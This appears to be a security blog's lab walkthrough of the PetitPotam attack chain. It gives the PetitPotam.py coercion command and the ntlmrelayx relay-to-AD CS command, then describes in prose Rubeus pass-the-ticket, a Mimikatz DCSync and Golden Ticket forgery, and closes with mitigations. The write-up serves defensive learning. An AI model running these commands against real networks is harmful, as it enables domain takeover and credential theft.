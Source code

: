 ```yaml
---
title: PetitPotam LAB PoC
layout: post

---
```


This weekend I decided to experiment with the PetitPotam poc in my lab. The goal was to have a better understanding of not only how the attack worked, but what configuration was required on the target systems in order for it to succeed to help defend against this and similar attacks. 

**Background**

PetitPotam, a PoC which was released by security researcher Gilles Lionel, abuses the Encrypting File System Remote Protocol (MS-EFSRPC) which is designed for performing maintenance and management operations on encrypted data that is stored remotely and accessed over a network. An unauthenticated attacker can leverage the vulnerability to get a target to connect to an attacker controlled server and reveal password hashes. The attack can be chained with an exploit targeting Active Directory Certificate Services (AD CS), by coercing a Domain Controller to send its hashes then relaying them to AD CS Web Enrollment pages to enroll a machine certificate for the DC. This will effectively give the attacker a certificate that can be used to acess domain services as a DC and compromise the entire domain.

**Lab Configuration**

I spun up a Server 2019 domain controller (DC-2019-01) and kept the default GPOs in place. I set up another server running Server 2016 (CERTSERVER), installed AD CS and joined it to the domain.

**PoC and Named Pipes**

I cloned the PetitPotam repo, setting my machine as the listener and domain controller as the target and received the "Attack Worked!" message.

```
python3 ./Petitpotam.py -u '' -p '' -d '' 10.0.3.2 dc-2019-01.lab.local
```

![2021-08-03_08-24.png](/assets/images/2021-08-03_08-24.png)

> Note: I was unable to get this to work with the default settings on a WIndows Server 2016 domain controller. According to Microsoft's [documentation](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-access-named-pipes-that-can-be-accessed-anonymously), domain controller should allow netlogon, samr, and lsarpc to be accessed anonymously by default which did not seem to be the case on the 2016 box. The settings can also be checked by viewing the [NullSessionPipes](https://www.windows-security.org/638f50f5ea2ebdf9ba6631478b7478b6/network-access-named-pipes-that-can-be-accessed-anonymously) registry key which was not present. As a sanity check I spun up a Server 2019 Domain Controller and the defaults were configured according to the documentation.
> 
> For what it's worth I had to modify "Network access: Named Pipes that can be accessed anonymously" by adding lsarpc (default pipe used) to allow the script to work against the 2016 DC. 
> 
> There are a couple Group Policy settings that control access to named pipes.
> 
> - Network access: Named Pipes that can be accessed anonymously
> 
> - Network access: Restrict anonymous access to named pipes

**Impacket / Generating a CSR and Machine cert**

In this scenario ntlmrelayx can be set up to listen for authenticaton requests, relay the hash to AD CS to authenticate, generate a CSR (using the machine cert template by default), and output the signed certificate in base64. 

```
ntlmrelayx.py -t http://certserver.lab.local/certsrv/certfnsh.asp -smb2support --adcs
```

> Note: Initially, the request errored out.  This is because the appropriate permissions were not configured on the certificate template to allow a domain controller to enroll.

![2021-08-07_15-22.png](/assets/images/2021-08-07_15-22.png)

**Rubeus (PTT)**

I wanted to see how far I could take this, I had the base64 encoded machine cert and after some research I learned that the cert could be used with Rubeus to request a TGT (Ticket Granting TIcket) and with the ptt (pass-the-ticket) parameter, import the ticket to be used for authentication.

![2021-08-08_16-05.png](/assets/images/2021-08-08_16-05.png)

With the TGT imported, A DCSync attack could be done via Mimikatz (lsadump::dcsync). The DCSync attack allows for impersonation of a Domain Controller (leverages  [MS-DRSR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)) in order to retrieve password data via domain replication.

![2021-08-10_20-43.png](/assets/images/2021-08-10_20-43.png)

There are (at least) two different paths from here. Dump the hashes and crack them offline, or use the krbtgt NTLM Hash to forge an authentication ticket (Golden Ticket). The Golden Ticket approach provides the ability to force more tickets and basically gives the attacker unfettered access so I went this route.

![2021-08-10_21-07.png](/assets/images/2021-08-10_21-07.png)

The forged ticket can then be loaded into mimikatz and used with misc::cmd to browse files or open a remote shell on the host. And as you can see, all without having to know any passwords.

![2021-08-10_20-57.png](/assets/images/2021-08-10_20-57.png)

![2021-08-10_20-58.png](/assets/images/2021-08-10_20-58.png)

**Mitigation**

The top 3 mitigations listed below prevented this attack from succeeding in my lab. Independent testing/research should be done to confirm if this will work in your environment and not break anything.

- Follow Microsoft guidance for enabling Extended Protection for Authentication (EPA) [KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429)

- Microsoft also provides guidance for disabling NTLM all together (Under the 'Additional Mitigation' in the KB article above). I dont think this is something organizations can do without a considerable amount of work up-front. Ned Pyle has a good write up about how I feel is the correct way to go about this. [NTLM Blocking and You: Application Analysis and Auditing Methodologies in Windows 7](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/ntlm-blocking-and-you-application-analysis-and-auditing/ba-p/397191)

- SMB-Signing: Since this attack relies on MS-EFSRPC (which works over the SMB protocol), enabling SMB-Signing will prevent attacks that involve SMB Relay  [Overview Server Message Block Signing](https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)

- I haven't had a chance to test but Microsoft released a patch that blocks the API calls which prevents the attack from succeeding  [Security Update Guide - Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-36942)

**References:**

[Microsoft Rushes Fix for ‘PetitPotam’ Attack PoC Threatpost](https://threatpost.com/microsoft-petitpotam-poc/168163/)

[MS-EFSR Encrypting File System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

[AD CS Relay Attack Practical Guide](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)

[Active Directory Certificate Services a big security blindspot](https://www.csoonline.com/article/3622352/report-active-directory-certificate-services-a-big-security-blindspot-on-enterprise-networks.html)

[Abusing Microsoft Kerberos Sorry You Guys Don't Get It](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)